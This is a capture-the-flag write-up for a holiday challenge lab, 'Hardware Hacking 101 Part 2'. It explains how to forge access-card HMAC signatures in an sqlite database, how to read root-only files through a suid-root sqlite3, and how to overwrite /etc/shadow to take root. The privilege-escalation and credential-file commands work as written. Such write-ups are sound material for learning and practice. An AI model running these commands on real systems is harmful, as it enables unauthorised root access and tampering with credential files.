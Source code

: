
# Objective 7: Hardware Hacking 101 Part 2

**Difficultree: 🎄**  
**Location: The Front Yard**

The objective is to enable badge card #42 for access in the "Santa's Little Helpers" tool.

## Easy 🥈
For this mode, a hint is provided to look into the history of the shell.
In fact, in the history this command is captured:
```
slh --passcode CandyCaneCrunch77 --set-access 1 --id 143
```

So using the following command, the objective can be cleared for the easy mode:
```
slh --passcode CandyCaneCrunch77 --set-access 1 --id 42
```
**Achievement: [Silver] Hardware Hacking 101 Part 2**

### alternative part 2/easy
Using the HMAC secret key obtained below along with [CyberChef](https://gchq.github.io/CyberChef/#recipe=HMAC%28%7B%27option%27:%27UTF8%27,%27string%27:%27873ac9ffea4dd04fa719e8920cd6938f0c23cd678af330939cff53c3d2855f34%27%7D,%27SHA256%27%29&input=MWMwNjAxOGI2LTVlODAtNDM5NS1hYjcxLWFlNTEyNDU2MDE4OQ) the HMAC can be calculated and the database updated directly:
```
sqlite> .open access_cards
sqlite> update access_cards set access=1,sig='e96c7dc0f25ebcbc45c9c077d4dc44adb6e4c9cb25d3cc8f88557d9b40e7dbaf' where id=42;
```
This clears the objective once the validation is triggered using `slh --view-card 42`.

## Hard 🥇
For the hard part, the process `/root/check_hmac`is checking every 5 seconds the contents of the database.

All access card information along with the tool config is stored in the sqlite3 file "access_cards". The file is writable only by `root`, but the "slh" tool and "sqlite3" are suid `root`.

Database schema and the data for card #42 look like this:
```
sqlite> .open access_cards
sqlite> .schema
CREATE TABLE access_cards (
            id INTEGER PRIMARY KEY,
            uuid TEXT,
            access INTEGER,
            sig TEXT
        );
CREATE TABLE config (
            id INTEGER PRIMARY KEY,
            config_key TEXT UNIQUE,
            config_value TEXT
        );

sqlite> select * from config;     
1|hmac_secret|9ed1515819dec61fd361d5fdabb57f41ecce1a5fe1fe263b98c0d6943b9b232e
2|hmac_message_format|{access}{uuid}
3|admin_password|3a40ae3f3fd57b2a4513cca783609589dbe51ce5e69739a33141c5717c20c9c1
4|app_version|1.0

sqlite> select * from access_cards where id=42;
42|c06018b6-5e80-4395-ab71-ae5124560189|0|ecb9de15a057305e5887502d46d434c9394f5ed7ef1a51d2930ad786b02f6ffd
```
Interestingly, when creating (using CyberChef as mentioned in the hints) the HMAC with SHA256 and the key from `hmac_secret` for `access` concatenated with the UUID of card #42
```
0c06018b6-5e80-4395-ab71-ae5124560189
```
it does not result in the value captured in the database table.   
Table:   
```
ecb9de15a057305e5887502d46d434c9394f5ed7ef1a51d2930ad786b02f6ffd
```
[Cyberchef](https://gchq.github.io/CyberChef/#recipe=HMAC%28%7B%27option%27:%27UTF8%27,%27string%27:%279ed1515819dec61fd361d5fdabb57f41ecce1a5fe1fe263b98c0d6943b9b232e%27%7D,%27SHA256%27%29&input=MGMwNjAxOGI2LTVlODAtNDM5NS1hYjcxLWFlNTEyNDU2MDE4OQ) (using the key as UTF8 string):   
```
34f4ccd2fda66ac2f3ed2136ce6cddecac92a4437fd2e0fc4ebaad61bc5893eb
```

So it seems, that the captured `hmac_secret` is not the key being used to calculate this HMAC.

Scanning the system shows, that apart from `slh`and `sqlite3` also `runtoanswer`is suid root.
For the hard mode, `runtoanswer`reads its config from `/etc/runtoanswer/hard.yaml`, which is unfortunately only accessible by `root`. The tool asks for the HMAC key being used to calculate the signatures.

But - it is possible to read the file with the help of `sqlite3`, as it is suid `root`:
```
sqlite> CREATE TABLE yaml(data BLOB);
sqlite> INSERT INTO yaml(data) VALUES(readfile('/etc/runtoanswer/hard.yaml'));
sqlite> select * from yaml;
# This is the config file for runtoanswer, where you can set up your challenge!
---
title: "Hard"
# This is the completionSecret from the Content sheet - don't tell the user this!
key: a08b747109942489cd74fc89e66d7c4c

Action: "hard"

# The answer that the user is expected to enter - case sensitive
# (This is optional - if you don't have an answer, then running this will immediately win)
answer: "873ac9ffea4dd04fa719e8920cd6938f0c23cd678af330939cff53c3d2855f34"
```
The validation using Cyberchef confirms, that this is the right key: https://gchq.github.io/CyberChef/#recipe=HMAC(%7B'option':'UTF8','string':'873ac9ffea4dd04fa719e8920cd6938f0c23cd678af330939cff53c3d2855f34'%7D,'SHA256')&input=MGMwNjAxOGI2LTVlODAtNDM5NS1hYjcxLWFlNTEyNDU2MDE4OQ
 
 So starting `runtoanswer` and providing it the answer `873ac9ffea4dd04fa719e8920cd6938f0c23cd678af330939cff53c3d2855f34` 
 clears the objective.   
**The `runtoanswer`binary along with the config files in `/etc/runtoanswer` was removed from the system in the meantime.**

**Achievement: [Gold] Hardware Hacking 101 Part 2**

### alternative part 2/hard I
Using the `hmac_secret` from the database it is possible to create the correct signature using [CyberChef](https://gchq.github.io/CyberChef/#recipe=HMAC%28%7B%27option%27:%27UTF8%27,%27string%27:%279ed1515819dec61fd361d5fdabb57f41ecce1a5fe1fe263b98c0d6943b9b232e%27%7D,%27SHA256%27%29&input=MWMwNjAxOGI2LTVlODAtNDM5NS1hYjcxLWFlNTEyNDU2MDE4OQ) for the payload `1c06018b6-5e80-4395-ab71-ae5124560189`.   
So setting this signature in the database for card 42 immediately clears the objective.
```
sqlite> .open access_cards
sqlite> update access_cards set access=1,sig='135a32d5026c5628b1753e6c67015c0f04e26051ef7391c2552de2816b1b7096' where id=42;
```

### alternative part 2/hard II
Analyzing the `check_hmac` tool (provided below) shows, that it checks for the signature `135a32d5026c5628b1753e6c67015c0f04e26051ef7391c2552de2816b1b7096`.
So setting this signature in the database for card 42 immediately clears the objective.
```
sqlite> .open access_cards
sqlite> update access_cards set sig='135a32d5026c5628b1753e6c67015c0f04e26051ef7391c2552de2816b1b7096' where id=42;
```
The objective is cleared regardless of the `access`value, because `check_hmac` does only look at the signature using this statement:
`SELECT sig FROM access_cards WHERE id = 42`

---
### HMAC secrets
The HMAC secret found in the database is the SHA256 hash of "pizza".    The HMAC secret which has to be used to create a valid signature is the SHA256 hash of "cheese".

### SLH_PASSCODE 
The expected passcode can be supplied in the environment variable `SLH_PASSCODE`:   
![slh passcode in ENV](slh-env.png)

### hard coded credentials
The passcode `CandyCaneCrunch77`found in the shell history is hard coded in the slh binary. The `admin_password` from the database is not used.   
Also the HMAC secret `873ac9ffea4dd04fa719e8920cd6938f0c23cd678af330939cff53c3d2855f34` is hard coded in the binary and not read from the database.

### binaries
The [slh](slh) and the [check_hmac](check_hmac) binaries were exfiltrated from the system and can be found in this repo for further analysis.   
This was performed using `sqlite3` as described for the retrieval of `/etc/runtoanswer/hard.yaml`. The only caveat is - as we are talking about binary data here - that the `readfile()`has to be encapsulated in `hex()`.   
Once retrieved, the files can be unpacked using `pyi-archive-viewer`. They both contain a `.pyc`file (`slh`resp. `check_hmac`). At least the strings from these `.pyc`files are readable and can be used for educated guesses.   
Furthermore, as the binaries are now available locally, they can be executed using debugging tools.

### full system takeover
Using the suid root tool `sqlite3` it is possible to overwrite `/etc/shadow` with own data and with that the takeover of the system:
```
slh@slhconsole\> sqlite3
sqlite> CREATE TABLE shadow(data BLOB);
sqlite> INSERT INTO shadow(data) VALUES('root::20038:0:99999:7:::');
sqlite> SELECT writefile('/etc/shadow',data) FROM shadow;
sqlite> .exit
slh@slhconsole\> su -
root@6f03030c64e5:~# id
uid=0(root) gid=0(root) groups=0(root)

```

<!--stackedit_data:
eyJoaXN0b3J5IjpbLTEyMzI2NDYzMCw3NzIzNzYzMjksNTgxNT
A0NTM4LC00MDc3NDA1NzZdfQ==
-->
